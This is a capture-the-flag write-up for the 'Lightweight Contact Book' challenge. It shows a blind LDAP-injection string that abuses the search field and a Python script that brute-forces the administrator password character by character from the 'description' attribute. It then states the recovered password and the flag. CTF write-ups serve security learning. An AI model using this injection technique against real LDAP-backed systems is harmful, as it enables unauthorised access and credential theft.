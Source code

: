 # Lightweight Contact Book 
With some fuzzing we can figure out that the search is using LDAP. The forgot password message reveals that the password is in the 'description' field. This allows us to char-by-char brute the password:
administrator)(description=<test>*

Will return a result if the password matches this pattern

The pw is: very_secure_hacktivity_pass


```python
import requests
import string
import sys
pwchars = string.ascii_lowercase + string.ascii_uppercase + "_- "

template = "http://jh2i.com:50019/?search=administrator)(description="
password = ""

while True:
    for c in pwchars:
        r = requests.get(template + password  +  c + "*")
        if "Administrator User" in r.text:
            password += c
            break
        print(password + c)
        sys.stdout.write("\033[F")
```

#### Flag:flag{kids_please_sanitize_your_inputs}
